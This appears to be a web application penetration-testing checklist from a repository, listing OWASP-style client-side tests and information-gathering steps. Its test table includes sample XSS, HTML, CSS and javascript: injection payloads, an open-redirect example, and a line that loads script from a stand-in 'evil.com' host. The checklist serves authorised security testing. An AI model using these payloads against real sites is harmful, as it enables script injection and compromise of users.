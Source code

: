 Client Side Testing	Test Name	Description	Tools
- [ ]  -CLIENT-001	Testing for DOM based Cross Site Scripting	Test for the user inputs obtained from client-side JavaScript Objects	Burp Proxy, DOMinator
- [ ]  -CLIENT-002	Testing for JavaScript Execution	"Inject JavaScript code:
www.victim.com/?javascript:alert(1)"	Burp Proxy, ZAP
- [ ]  -CLIENT-003	Testing for HTML Injection	"Send malicious HTML code:
?user=<img%20src='aaa'%20onerror=alert(1)>"	Burp Proxy, ZAP
- [ ]  -CLIENT-004	Testing for Client Side URL Redirect	"Modify untrusted URL input to a malicious site: (Open Redirect)
?redirect=www.fake-target.site "	Burp Proxy, ZAP
- [ ]  -CLIENT-005	Testing for CSS Injection	"Inject code in the CSS context :
•  www.victim.com/#red;-o-link:'javascript:alert(1)';-o-link-source:current; (Opera [8,12])
•  www.victim.com/#red;-:expression(alert(URL=1)); (IE 7/8)"	Burp Proxy, ZAP
- [ ]  -CLIENT-006	Testing for Client Side Resource Manipulation	"External JavaScript could be easily injected in the trusted web site
www.victim.com/#http://evil.com/js.js"	Burp Proxy, ZAP
- [ ]  -CLIENT-007	Test Cross Origin Resource Sharing	"Check the HTTP headers in order to understand how CORS is
used (Origin Header)"	Burp Proxy, ZAP
- [ ]  -CLIENT-008	Testing for Cross Site Flashing	Decompile, Undefined variables, Unsafe methods, Include malicious SWF (http://victim/file.swf?lang=http://evil	FlashBang, Flare, Flasm, SWFScan, SWF Intruder
- [ ]  -CLIENT-009	Testing for Clickjacking	Discover if a website is vulnerable by loading into an iframe, create simple web page that includes a frame containing the target.	Burp Proxy, ClickjackingTool
- [ ]  -CLIENT-010	Testing WebSockets	Identify that the application is using WebSockets by inspecting ws:// or wss:// URI scheme.Use Google Chrome's Developer Tools to view the Network WebSocket communication. Check Origin, Confidentiality and Integrity, Authentication, Authorization, Input Sanitization	Burp Proxy, Chrome, ZAP, WebSocket Client
- [ ]  -CLIENT-011	Test Web Messaging	Analyse JavaScript code looking for how Web Messaging is implemented. How the website is restricting messages from untrusted domain and how the data is handled even for trusted domains	Burp Proxy, ZAP
- [ ]  -CLIENT-012	Test Local Storage	"Determine whether the website is storing sensitive data in the storage. XSS in localstorage 
http://server/StoragePOC.html#<img src=x onerror=alert(1)>"	Chrome, Firebug, Burp Proxy, ZAP

- [ ] OSINT     

### <a name="Information">Information Gathering</a>
- [ ] Manually explore the site  
- [ ] Spider/crawl for missed or hidden content  
- [ ] Check for files that expose content, such as robots.txt, sitemap.xml, .DS_Store  
- [ ] Check the caches of major search engines for publicly accessible sites  
- [ ] Check for differences in content based on User Agent (eg, Mobile sites, access as a Search engine Crawler)  
- [ ] Perform Web Application Fingerprinting  = WHATWEB
- [ ] Identify technologies used  
- [ ] Identify user roles  
- [ ] Identify application entry points  
- [ ] Identify client-side code  
- [ ] Identify multiple versions/channels (e.g. web, mobile web, mobile app, web services)  
- [ ] Identify co-hosted and related applications  
- [ ] Identify all hostnames and ports  
- [ ] Identify third-party hosted content  
- [ ] Identify Debug parameters  
